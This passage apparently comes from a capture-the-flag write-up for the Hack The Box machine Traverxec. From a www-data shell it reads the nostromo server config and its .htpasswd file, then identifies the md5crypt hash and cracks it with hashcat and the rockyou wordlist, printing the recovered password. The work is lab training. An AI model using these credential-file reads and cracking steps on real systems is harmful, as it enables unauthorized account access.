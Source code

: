 ```bash
www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf
# MAIN [MANDATORY]

servername              traverxec.htb
serverlisten            *
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html

# LOGS [OPTIONAL]

logpid                  logs/nhttpd.pid

# SETUID [RECOMMENDED]

user                    www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons                  /var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
```

### Hash crack

The `/var/nostromo/conf/.htpasswd` file is used to store the `htpasswd` value.

```bash
www-data@traverxec:/var/nostromo/conf$ cat /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

We can try to identify and crack this hash.

```bash
luc@kali:~/HTB/Traverxec$ hashid '$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/'
Analyzing '$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/'
[+] MD5 Crypt
[+] Cisco-IOS(MD5)
[+] FreeBSD MD5
luc@kali:~/HTB/Traverxec$ hashcat --example-hashes
...
MODE: 500
TYPE: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
HASH: $1$38652870$DUjsu4TTlTsOe/xxZ05uf/
PASS: hashcat
...
luc@kali:~/HTB/Traverxec$ hashcat -m 500 --user hashes /usr/share/wordlists/rockyou.txt
...
$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/:Nowonly4me
...
```
